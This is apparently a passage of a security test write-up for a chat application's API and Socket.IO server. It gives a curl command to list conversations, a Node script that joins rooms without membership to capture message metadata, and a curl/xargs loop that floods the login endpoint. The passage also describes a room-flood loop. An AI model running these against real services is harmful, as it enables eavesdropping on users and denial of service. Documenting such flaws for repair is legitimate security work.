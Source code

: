 List conversations (for a valid `CONV_ID`):

```bash
curl -sS -H "Authorization: Bearer $TOKEN" \
  'https://target.example.com/api/conversations'
```

---

### 1) Realtime Eavesdrop & Room Flood

Join a conversation room without membership (Socket.IO). Note: this demonstrates metadata exposure, not plaintext.

```js
// Save as join-room.js and run with: node join-room.js
import { io } from 'socket.io-client';

const SOCKET_URL = 'https://target.example.com';
const TOKEN = process.env.TOKEN; // export TOKEN=...
const CONV_ID = Number(process.env.CONV_ID || '1698700000000');

const socket = io(SOCKET_URL, { transports: ['websocket'], rejectUnauthorized: false });

socket.on('connect', () => {
  console.log('connected', socket.id);
  socket.emit('authenticate', TOKEN);
  socket.emit('join-conversation', CONV_ID);
});

['new-message','message-updated','message-deleted'].forEach(evt => {
  socket.on(evt, (payload) => {
    // Metadata - note sender_username, content_key_number, timestamps
    console.log(`[${evt}]`, payload);
  });
});
```

Expected behavior: server accepts `join-conversation` regardless of membership (`server/server.js:122`), and future events for that `CONV_ID` will be delivered with metadata fields (IDs, timestamps, sender_username).

Room flood (many rooms): set `CONV_ID_START`, `CONV_ID_END` and iterate `join-conversation` to stress memory.

---

### 2) API Flood & Bounds Testing

2.a) Login CPU load (bcrypt):

```bash
seq 1 100 | xargs -I{} -P 8 curl -sS -X POST \
  'https://target.example.com/api/auth/login' \
  -H 'Content-Type: application/json' \
  -d '{"username":"tester","password":"P@ssw0rd!"}' >/dev/null
```
